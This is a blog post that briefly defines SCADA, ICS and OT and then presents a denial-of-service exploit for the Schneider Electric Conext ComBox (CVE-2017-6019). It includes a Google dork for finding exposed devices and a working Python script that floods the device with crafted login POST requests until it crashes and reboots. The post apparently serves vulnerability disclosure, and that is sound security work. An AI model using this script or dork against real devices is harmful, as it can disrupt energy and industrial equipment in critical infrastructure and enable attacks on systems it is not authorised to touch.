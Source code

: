 ```yaml
---
category: 'blog'
cover: './cover.jpg'
title: 'Schneider Electric - ComBox Exploitation'
description: 'Exploitation on SCADA/ICS/IoT device running in critical infrastructures'
date: '2019-11-13'
tags: ['Exploitation']
published: true
---
```


_Exploitation on SCADA/ICS/OT device running in critical infrastructures_.

**What is SCADA, ICS or OT?**

![Critical Infrastructure](./cover.jpg)

**SCADA**: "SCADA is an acronym for supervisory control and data acquisition, a computer system for gathering and analyzing real time data. SCADA systems are used to monitor and control a plant or equipment in industries such as telecommunications, water and waste control, energy, oil and gas refining and transportation."

**ICS**: "Industrial control system (ICS) is a general term that encompasses several types of control systems and associated instrumentation used for industrial process control."

**OT**: "Operational Technology – the hardware and software dedicated to detecting or causing changes in physical processes through direct monitoring and/or control of physical devices such as valves, pumps, etc."

---

**Conext ComBox - Denial of Service (HTTP-POST)**

**Description**: The exploit cause the device to self-reboot, constituting a denial of service.

**Google Dork**: `"Conext ComBox" + "JavaScript was not detected" /OR/ "Conext ComBox" + "Recover Lost Password"`

**Exploit Author**: Mark Liapustin & Arik Kublanov

**Vendor Homepage**: http://solar.schneider-electric.com/product/conext-combox/

**Software Link**: http://cdn.solar.schneider-electric.com/wp-content/uploads/2016/06/conext-combox-data-sheet-20160624.pdf

**CVE**: CVE-2017-6019

**Exploit Code**:

```
import subprocess
import os
import sys
import time
import socket
# =========================================================

print 'Usage: python ComBoxDos.py IP PORT'
print 'Number of arguments:', len(sys.argv), 'arguments.'
print 'Argument List:', str(sys.argv)

print "ComBox Denial of Service via HTTP-POST Request"
global cmdosip
cmdosip = str(sys.argv[1])
port = int(sys.argv[2])
print "[!] The script will cause the Conext ComBox device to crash and to reboot itself."
		
print "Executing...\n\n\n"
for i in range(1, 1000):
  try:
	cmdosdir = "login.cgi?login_username=Nation-E&login_password=DOS&submit=Log+In"
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((cmdosip, port))
	print "[+] Sent HTTP POST Request to: " + cmdosip + " with /" + cmdosdir + " HTTP/1.1"
	s.send("POST /" + cmdosdir + " HTTP/1.1\r\n")
	s.send("Host: " + cmdosip + "\r\n\r\n")
	s.close()
  except: 
     pass
```
